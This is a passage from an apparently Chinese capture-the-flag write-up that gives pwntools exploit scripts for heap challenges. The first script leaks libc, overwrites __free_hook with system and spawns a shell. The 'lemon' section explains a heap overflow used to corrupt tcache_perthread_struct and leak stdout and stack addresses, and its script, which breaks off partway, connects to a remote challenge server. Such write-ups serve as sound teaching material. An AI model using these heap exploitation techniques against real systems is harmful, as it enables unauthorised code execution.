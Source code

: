 ```

for i in range(4):
    delete(i)
for i in range(3):
    delete(i+5)

delete(4)
for i in range(7):
    add('AAAA', 0xf0, decode('a'*0xf0, key))

add('AAAA', 0xf0, decode('a'*0xf0, key))#7
show(8)
r.recvuntil('Pwd is: ')
addr = u64( decode((r.recv(6)), key).ljust(8,'\x00')  )
libc.address = addr-96-0x10-libc.symbols['__malloc_hook']
print 'libc_base ===&gt; ', hex(libc.address)
free_hook = libc.symbols['__free_hook']
sys_addr = libc.symbols['system']

add('AAAA', 0xf0, decode('a'*0xf0, key))
add('AAAA', 0xf0, decode('a'*0xf0, key))

delete(12)
delete(11)
delete(8)
edit(9, p64(free_hook))

add('AAAA', 0xf0, decode('/bin/sh\x00', key))
add('AAAA', 0xf0, decode(p64(sys_addr), key))
delete(8)

r.interactive()

#flag`{`2db0e64f-afe1-44d4-9af9-ae138da7bb4b`}`
```

### <a class="reference-link" name="lemon"></a>lemon

在第一个game里，输入 FFFF 即可将flag内容放到栈上<br>
第二个game里的color功能存在堆溢出，eat功能会打印堆地址<br>
color改地址使其指向tcache_perthread_struct并修改来构造unsortedbin，爆破stdout并泄露真实地址，同理用environ泄露栈地址，stdout打印flag。

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import os
import sys

context(os='linux',arch='amd64')
context.log_level = 'debug'
# p = process("./lemon_pwn")
p = remote("47.104.70.90", 34524)

libc = ELF('./libc-2.26.so')

def chioce(idx):
    p.sendlineafter("&gt;&gt;&gt;",str(idx))

def get(idx, name, size, data):
    chioce(1)
    p.sendlineafter("index of your lemon:",str(idx))
    p.sendafter("name your lemon:",name)
    p.sendlineafter("of message for you lemon: ",str(size))
```